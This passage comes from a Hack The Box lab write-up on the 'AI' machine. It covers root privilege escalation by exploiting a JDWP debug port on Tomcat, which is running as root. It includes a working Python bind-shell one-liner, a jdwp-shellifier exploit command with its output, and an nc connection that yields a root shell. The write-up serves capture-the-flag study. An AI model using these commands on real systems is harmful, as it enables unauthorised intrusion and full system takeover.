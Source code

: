then an ssh tunnel with ```ssh -L 8080:localhost:8080 alexa@10.10.10.163``` was run to know which service it was, resulting in tomcat:

{{< image src="/images/htb/ai/tomcat-tunnel.png" position="center" style="border-radius: 8px;" >}}

Checked the process runing, is possible to see that tomcat is being executed with root user and [JDWP](https://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html) enabled:

```console
root       3875  5.5  5.8 3141684 118248 ?      Sl   21:02   0:05 /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start
```

A quick search google gives a result the next [exploit](https://www.exploit-db.com/exploits/46501)

Then to use that exploit a ```bind.sh``` is created under ```/tmp``` with the next code:

```python
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

So, it will bind a shell in the port 2222, after it the exploit is run using that script:

```console
alexa@AI:~$ ./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' --cmd /tmp/bind.sh 
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=650
[+] Found Runtime.getRuntime(): id=7f9080006b60
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x6ed
[+] Selected payload '/tmp/bind.sh'
[+] Command string object created id:6ee
[+] Runtime.getRuntime() returned context id:0x6ef
[+] found Runtime.exec(): id=7f9080006b98
[+] Runtime.exec() successful, retId=6f0
[!] Command successfully executed
```

Done that, is tried to get a connection to the server with nc to the server in port specified in ```bind.sh``` getting root access with it:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# nc -v 10.10.10.163 2222
ai.lnx.htb [10.10.10.163] 2222 (?) open
bash: cannot set terminal process group (6086): Inappropriate ioctl for device
bash: no job control in this shell
root@AI:~# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
